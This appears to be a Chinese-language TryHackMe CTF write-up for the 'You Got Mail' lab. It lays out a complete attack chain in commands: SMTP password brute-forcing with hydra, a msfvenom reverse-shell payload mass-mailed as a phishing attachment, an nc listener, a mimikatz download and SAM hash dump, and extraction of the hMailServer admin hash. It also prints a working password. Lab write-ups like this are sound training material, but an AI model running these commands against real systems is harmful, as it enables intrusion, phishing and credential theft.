 ```yaml
---
title: You Got Mail
subtitle:
date: 2025-03-14T12:27:45+08:00
slug: c247f47
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - TryHackMe
categories:
  - TryHackMe
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

先查看题目给出的网站
![](images/667c671cc1a91a091bfd34d6b4aa338e.png)
在Our Team页面发现一些邮箱，根据题目内容可能和题目有关
![](images/d7e9da3c9f4fc60a659357cf17d03700.png)

```
root㉿T1ngWin vim email.txt

fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```

没什么思路了，先查看一下端口吧
nmap扫描发现只有一些邮件服务和一些Winodws服务开放

``` Shell
root@ip-10-10-154-154:~# nmap -T4 -n -sC -sV -Pn -p- 10.10.84.228
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 18:48 GMT
Stats: 0:01:59 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 52.63% done; ETC: 18:50 (0:00:32 remaining)
Nmap scan report for 10.10.84.228
Host is up (0.00030s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: OK CHILDREN IDLE NAMESPACE IMAP4rev1 RIGHTS=texkA0001 IMAP4 CAPABILITY completed SORT ACL QUOTA
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRICK-MAIL
|   NetBIOS_Domain_Name: BRICK-MAIL
|   NetBIOS_Computer_Name: BRICK-MAIL
|   DNS_Domain_Name: BRICK-MAIL
|   DNS_Computer_Name: BRICK-MAIL
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-13T18:50:40+00:00
| ssl-cert: Subject: commonName=BRICK-MAIL
| Not valid before: 2025-02-12T18:45:16
|_Not valid after:  2025-08-14T18:45:16
|_ssl-date: 2025-02-13T18:50:45+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:ED:BB:0E:C7:39 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BRICK-MAIL, NetBIOS user: <unknown>, NetBIOS MAC: 02:ed:bb:0e:c7:39 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-13T18:50:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.61 seconds
```

好像并没有什么用，尝试根据网站创建自定义密码

``` Shell
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

hydra测试邮箱登录密码（nmap扫描得到smtp端口为587）

``` Shell
hydra -L email.txt -P password.txt 10.10.84.228 smtp -s 587 -t 16
```

![](images/c8608fafe5c0b2c4789458a04b763577.png)获得邮箱账号登录密码，尝试利用反向shell创建可执行文件

``` Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.200.215 LPORT=443 -f exe -o shell.exe
```

使用已经获取账户密码的用户发送可执行文件到其他用户

``` Shell
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.84.228:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done 
```

发送成功
![](images/7b55538990b1f3b03cf57a415715f964.png)
同时监听443端口

``` Shell
nc -lnvp 443
```

![](images/29a41743e330c4d6afae6484bc4984c0.png)
发现此时的权限是wrohit，尝试获取桌面flag

``` Shell
dir C:\Users\wrohit\Desktop
type C:\Users\wrohit\Desktop\flag.txt
```

![](images/6eb99a9624e7d686bb3be955787bcfbc.png)
接下来尝试查找wrohit用户的密码，此时该用户是位于Administrators下的，所以只需要把mimikatz.exe上传即可，上传至ProgramData文件夹内

``` Shell
curl http://10.10.200.215:8888/mimikatz.exe -o mimikatz.exe
```

利用mimikatz获取哈希密码

``` Shell
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

![](images/1c7a8fbb3cee2b5e8f7c1d8b2db34f4e.png)
在线平台破解哈希即可 https://crackstation.net/
![](images/fcb42c276516424eb3a2f9bdfdb023ee.png)
最后任务是找到hMailServer Administrator Dashboard
该密码存在在在`C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`
读取文件即可

``` Shell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
```

![](images/f9c9c1df8587bd0d2a24ceca819a5c18.png)
破解哈希
![](images/714215a672e9cb9b2449ccddce01fdd8.png)
结束


![](images/9304f15558c8f132b296223569b71418.png)

